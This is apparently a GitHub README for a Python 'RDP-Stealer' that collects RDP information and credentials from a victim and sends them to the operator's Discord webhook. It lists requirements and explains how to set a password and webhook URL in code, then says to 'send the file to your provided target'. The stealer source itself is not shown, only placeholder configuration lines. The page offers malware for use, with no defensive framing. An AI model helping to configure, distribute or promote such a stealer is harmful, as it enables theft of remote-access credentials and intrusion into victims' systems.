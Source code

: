 ## Information
A Python simple RDP-Stealer, allows you to grab RDP information/credentials using Discord webhook.
## Requirements
- Python 3.10.0
- Discord Webhook modules
- Webhook URL
- Target
## How To Use
So firstly, what you gonna do is change the password value to whatever you want.
```python
passw = "YOUR PASSWORD"
```
And then, change the webhook url value to your URL
```python
webhook = DiscordWebhook(url='YOUR WEBHOOK')
```
And if you're finished and ready to go, send the file to your provided target.
## Preview
